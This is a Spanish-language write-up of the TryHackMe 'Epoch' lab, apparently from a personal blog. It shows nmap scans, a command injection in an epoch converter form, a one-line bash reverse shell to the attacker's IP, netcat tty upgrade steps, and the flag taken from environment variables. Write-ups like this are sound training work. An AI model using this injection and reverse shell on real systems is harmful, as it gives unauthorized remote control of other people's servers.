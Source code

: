 ```yaml
---
layout: single
title: Epoch - Tryhackme
excerpt: "El punto de entrada es el servicio web, el cual es vulnerable a una inyección de comandos, inyectamos un comando que nos envía una reverse shell a nuestro equipo y ganamos acceso a la máquina víctima"
date: 2023-01-11
classes: wide
header:
  teaser: /assets/images/tryhackme-writeup-epoch/1f93210b470f836c38121fc3f65c0807.png
  teaser_home_page: true
  icon: /assets/images/tryhackme_logo.svg
categories:
  - tryhackme
tags:
  - linux
  - fácil
  - command inyection
---
```


<p align="center">
  <img width="460" height="300" src="/assets/images/tryhackme-writeup-epoch/1f93210b470f836c38121fc3f65c0807.png">
</p>

El punto de entrada es el servicio web, el cual es vulnerable a una inyección de comandos, inyectamos un comando que nos envía una reverse shell a nuestro equipo y ganamos acceso a la máquina víctima

## Resumen

- El aplicativo web es vulnerable a una inyección de comandos, desde la cual, ganamos acceso a la máquina víctima mediante un reverse shell

## Escaneo de puertos

```
# sudo nmap --min-rate 5000 -p- --open -sS -Pn -n -v 10.10.32.171 -oG openPorts
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-12 17:27 CET
Initiating SYN Stealth Scan at 17:27
Scanning 10.10.32.171 [65535 ports]
Discovered open port 80/tcp on 10.10.32.171
Discovered open port 22/tcp on 10.10.32.171
Completed SYN Stealth Scan at 17:28, 12.25s elapsed (65535 total ports)
Nmap scan report for 10.10.32.171
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# nmap -sV -sV -p22,80 10.10.32.171 -oN services
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-12 17:28 CET
Nmap scan report for 10.10.32.171
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=1/12%Time=63C03536%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,529,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2012\x20Jan\x20202
SF:3\x2016:28:37\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\
SF:nContent-Length:\x201184\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20ht
SF:ml>\n\n<head>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"ht
SF:tps://stackpath\.bootstrapcdn\.com/bootstrap/4\.5\.2/css/bootstrap\.min
SF:\.css\"\n\x20\x20\x20\x20\x20\x20\x20\x20integrity=\"sha384-JcKb8q3iqJ6
SF:1gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP\+VmmDGMN5t9UJ0Z\"\x20crossorigin
SF:=\"anonymous\">\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20body,\n\x20\x20\x20\x20\x20\x20\x20\x20html\x20{\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20height:\x20100%;\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20}\n\x20\x20\x20\x20</style>\n</head>\n\n<body>\n\x20\x20\x20\x
SF:20<div\x20class=\"container\x20h-100\">\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20<div\x20class=\"row\x20mt-5\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20<div\x20class=\"col-12\x20mb-4\">\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<h3\x20class=\"text-center\">Epo
SF:ch\x20to\x20UTC\x20convertor\x20\xe2\x8f\xb3</h3>\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20<form\x20class=\"col-6\x20mx-auto\"\x20action=\"/\">\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<div\x20cla
SF:ss=\"\x20input-group\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20<input\x20name=\"epoch\"\x20value=\"\
SF:"\x20type=\"text\"\x20class=\"form-control\"\x20placeholder=\"Epoch\"\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0")%r(HTTPOptions,BC,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nD
SF:ate:\x20Thu,\x2012\x20Jan\x202023\x2016:28:37\x20GMT\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nContent-Length:\x2018\r\nAllow:\x20GE
SF:T,\x20HEAD\r\nConnection:\x20close\r\n\r\nMethod\x20Not\x20Allowed")%r(
SF:RTSPRequest,BC,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x
SF:20Thu,\x2012\x20Jan\x202023\x2016:28:37\x20GMT\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nContent-Length:\x2018\r\nAllow:\x20GET,\x20
SF:HEAD\r\nConnection:\x20close\r\n\r\nMethod\x20Not\x20Allowed");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración web

Al acceder al servicio web nos encontramos esto

![](/assets/images/tryhackme-writeup-epoch/Pasted image 20230112173127.png)

La página web permite inyecciones de comandos

![](/assets/images/tryhackme-writeup-epoch/Pasted image 20230112175133.png)

Nos entablamos una reverse shell ejecutando el siguiente comando

```
;bash -i >& /dev/tcp/10.8.58.58/8080 0>&1
```

Recibimos la reverse shell y hacemos un tratamiento a la tty

```
# nc -nlvp 8080                                 
listening on [any] 8080 ...
connect to [10.8.58.58] from (UNKNOWN) [10.10.32.171] 37062
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
challenge@e7c1352e71ec:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
challenge@e7c1352e71ec:~$ ^Z
zsh: suspended  nc -nlvp 8080

stty raw -echo; fg                                                           
[1]  + continued  nc -nlvp 8080
                               reset xterm

challenge@e7c1352e71ec:~$ export TERM=xterm
challenge@e7c1352e71ec:~$ export SHELL=bash
challenge@e7c1352e71ec:~$ stty rows 49 columns 184
```

Imprimimos las variables de entorno y obtenemos la flag

```
challenge@e7c1352e71ec:~$ printenv
SHELL=bash
HOSTNAME=e7c1352e71ec
PWD=/home/challenge
HOME=/home/challenge
LS_COLORS=
GOLANG_VERSION=1.15.7
FLAG=flag{7da6c7debd40bd611560c13d8149b647}
TERM=xterm
SHLVL=3
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/printenv
OLDPWD=/home
```
